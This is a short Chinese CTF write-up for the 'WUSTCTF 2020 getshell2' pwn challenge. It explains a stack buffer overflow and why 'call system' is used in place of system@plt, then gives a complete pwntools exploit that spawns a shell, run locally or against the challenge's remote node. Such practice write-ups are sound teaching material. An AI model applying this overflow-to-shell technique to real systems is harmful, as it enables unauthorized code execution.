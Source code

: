 [[WUSTCTF 2020]getshell2 | NSSCTF](https://www.nssctf.cn/problem/2003)
![[Pasted image 20240901141126.png]]
![[Pasted image 20240901141133.png]]
可栈溢出，有一个没法直接用的backdoor
字符串存在rodata里
![[Pasted image 20240901141307.png]]
可用ROPgadget找到sh的地址
![[Pasted image 20240901141347.png]]
**这里不能用`system@plt`地址，因为plt地址需要返回值，可溢出的地址位数不够`0x24-0x18=0xc`，所以只能用`shell()`里的`call system`来调用system，call函数不用返回值了，它会自己把下一条指令给压进去
如果要用`system@plt`地址的话要用`ret`，但`read`给的长度不足故用call这里代为调用。**
![[Pasted image 20240901142313.png]]
exp:
```python
from pwn import *

context(arch = 'i386', os = 'linux', log_level = 'debug')
local = True
elf = ELF('./getshell2')
if local:
    p = process('./getshell2')
    # pwnlib.gdb.attach(p, 'b main')
else:
    p = remote("node5.anna.nssctf.cn", 21394)

system_addr = elf.symbols['system']
log.success('system_addr: ' + hex(system_addr))
system_addr = 0x8048529
shell = 0x08048670
offset = 0x18 + 4
payload = b'a' * offset + p32(system_addr) + p32(shell)

p.sendline(payload)
p.interactive()
```